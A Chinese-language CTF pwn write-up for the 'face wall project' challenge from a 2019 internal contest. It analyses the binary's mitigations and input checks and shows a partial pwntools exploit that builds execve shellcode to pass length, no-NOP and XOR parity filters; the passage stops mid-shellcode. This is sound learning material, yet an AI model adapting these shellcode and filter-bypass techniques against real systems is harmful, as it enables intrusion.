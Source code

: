 ```yaml
---
title: Aurora内部赛pwn writeup
date: 2019-06-10 15:33:49
tags:
---
```




所有题目和源文件：[链接](<https://github.com/CP32/ctf-pwn/tree/master/2019Aurora%E5%86%85%E9%83%A8%E8%B5%9B>)

## face wall project

##### checksec分析

```
[*] '/home/ljb/ctf/aurora/face_wall_project/break_the_wall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

除了PIE开启，其他全关



IDA打开，F5，发现如下报错。找到那一行，发现是调用了buf的指令，理解之后把那一行nop掉，再F5，就能正常分析了。

![](https://github.com/CP32/ctf-pwn/blob/master/2019Aurora%E5%86%85%E9%83%A8%E8%B5%9B/face%20wall%201.jpg?raw=true)

分析发现是读入30字节的数据。

1. 用strlen判断数据长度要大于29，即长度要等于30，所以不能有0截断。
2. 检查数据中是否有\x90，所以不能有nop指令。
3. 一个xor函数，把奇数位数据进行异或得到a，然后把偶数位数据进行异或得到b，比较a和b是否相同，如果相同则执行数据。

##### 解题思路：

显然是要我们传入shellcode从而执行shellcode。要求长度为30，且不能用nop指令填充，因此最好的办法是把一些无关指令重复执行。又因为xor函数的校验，我们需要让shellcode长度为29，最后进行计算填充第30位，从而绕过xor的检查。

##### exp:

```python
from pwn import *
elf=ELF("break_the_wall")
io=elf.process()
#io=remote("123.207.32.26",9004)
libc=elf.libc
#libc=ELF("")
#context.log_level='debug'
context.bits=64

sla=io.sendlineafter
sl=io.sendline
sa=io.sendafter
ru=io.recvuntil
shell=io.interactive

shellcode=asm('xor rsi,rsi')
shellcode+=asm('xor rdx,rdx')#execve第二个参数rsi，第三个参数rdx置0
shellcode+=asm('xor rax,rax')#系统调用rax位清0.
shellcode+=asm('push rax')
shellcode+=asm('push rax')
shellcode+=asm('push rax')#填充使得shellcode为29位。同时因为rax=0，可以达到对'//bin/sh'0截断的效果
```